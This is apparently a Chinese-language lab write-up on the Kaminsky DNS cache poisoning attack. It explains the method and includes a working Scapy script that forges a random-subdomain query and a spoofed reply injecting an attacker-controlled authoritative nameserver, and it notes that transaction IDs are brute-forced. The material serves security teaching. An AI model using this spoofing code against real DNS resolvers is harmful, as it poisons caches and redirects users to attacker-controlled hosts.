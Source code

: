 #### 攻击原理

当dns中已经有example.com的缓存信息时，它不再从根域名服务器查起，而是直接询问example.com。攻击机可以想Apollo发送伪造的响应，比真正的example.com先一步到达dns即可。

但是由于dns缓存有较长时间，攻击机想要等待服务器主动发起对指定域名的DNS请求需要时间。Dan Kaminsky提出了一种攻击方法去避免这个问题，该方法的步骤是：

①攻击者查询example.com随机的不存在的名称；  
②dns服务器缓存中没有这一域名，因此向example.com发起请求；  
③攻击机针对请求发送DNS欺骗流，不仅为该域名提供Answer，还将ns.姓名.net作为example.com域的权威域名服务器，从而破坏缓存。  

#### 攻击过程

两个攻击脚本：

伪造请求包和响应包的python程序general_dns.py：

```python
from scapy.all import *
import string
import random

# random name
name = ''.join(random.sample(string.ascii_letters, 5))+'.example.com' 
print(name)
Qdsec = DNSQR(qname=name)

# query
ip_q  = IP(dst='10.10.10.2',src='10.10.10.1') # dst: dns; src:attacker
udp_q = UDP(dport=53,sport=33333,chksum=0)
dns_q = DNS(id=0xaaaa,qr=0,qdcount=1,ancount=0,nscount=0,arcount=0,qd=Qdsec)
pkt_q= ip_q/udp_q/dns_q

# reply
ip_r = IP(dst='10.10.10.2', src='199.43.135.53', chksum=0)
udp_r = UDP(dport=33333, sport=53, chksum=0)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200)
 # The Authority Section
NSsec = DNSRR(rrname='example.com', type='NS', ttl=259200, rdata='ns.ssd.net')
Addsec = DNSRR(rrname='ns.ssd.net', type='A', ttl=259200, rdata='10.10.10.1')
dns_r = DNS(id=0xAAAA, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=1, arcount=1, qd=Qdsec, an=Anssec, ns=NSsec, ar=Addsec)
pkt_r = ip_r/udp_r/dns_r

with open('query.bin','wb')as f:
  f.write(bytes(pkt_q))
with open('reply.bin', 'wb') as f:
  f.write(bytes(pkt_r))
```

其中响应包的id要随机生成，发送从0~ffff号的所有报文来进行DNS欺骗。

用bless查看构造的reply.bin的二进制，找到id的偏移地址：

![](https://gitee.com/shandianchengzi/picture-bed/raw/master/img/20220421091116.png)

